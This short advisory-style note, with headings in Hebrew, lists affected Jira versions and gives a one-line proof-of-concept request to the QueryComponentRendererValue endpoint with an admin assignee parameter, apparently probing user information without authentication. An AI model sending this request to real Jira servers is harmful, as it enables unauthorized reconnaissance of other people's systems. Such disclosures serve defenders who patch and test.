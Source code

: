 <languages />

גרסה מושפעת
-----------

    Jira < 8.5.13
    8.6.0 ≤ Jira < 8.13.5
    8.14.0 ≤ Jira < 8.15.1

POC
---

    /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

צילום מסך
---------

![](Twitter_E3k2_J4VIAAWR_6.jpg "Twitter_E3k2_J4VIAAWR_6.jpg")